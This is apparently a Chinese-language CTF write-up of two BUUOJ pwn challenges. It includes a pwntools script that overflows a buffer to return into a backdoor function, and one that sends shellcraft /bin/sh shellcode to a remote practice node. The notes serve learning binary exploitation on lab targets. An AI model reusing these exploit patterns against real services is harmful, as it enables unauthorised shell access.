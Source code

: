 应该是要构造execve("/bin/sh")

![image-20240420172605890](../typora-user-images/image-20240420172605890.png)

0x000000000040101a

错了，有个后门函数，直接返回地址到那就行

exp

```python
from pwn import *

# p=process("./ret2text")
p=remote('node5.buuoj.cn',28803)

padding = 0x20+8


binsh_addr=0x4011fb


payload=b'a'*padding+p64(binsh_addr)

p.recvuntil('Show me your magic\n')
p.sendline(payload)
p.interactive()

```

![image-20240420183354591](../typora-user-images/image-20240420183354591.png)

有时候要recvuntil，有什么用呢？

[对pwntools之recv,send方法的理解](https://blog.csdn.net/hanqdi_/article/details/107164199)

recv可以理解为read读取，有时候需要从程序读取信息，需要先将前面的输出读取recv处理了

这样recv读取的才是我们需要的信息，否则就会读到前面的输出，相当于那个读取指针没动。









#### ezshellcode

![image-20240421104649368](../typora-user-images/image-20240421104649368.png)

![image-20240421113306733](../typora-user-images/image-20240421113306733.png)

IDA分析发现程序会直接执行我们发送的内容，所以我们直接发送生成的shellcode即可

exp

```python
from pwn import *

context(os='linux',arch='amd64')   # 64位程序要写
p=remote("node5.buuoj.cn",26000)

# padding = 0x8+8
# bss_addr=0x404070

shellcode=asm(shellcraft.amd64.sh())

p.sendline(shellcode)

# payload=b'a'*padding+p64(bss_addr)
```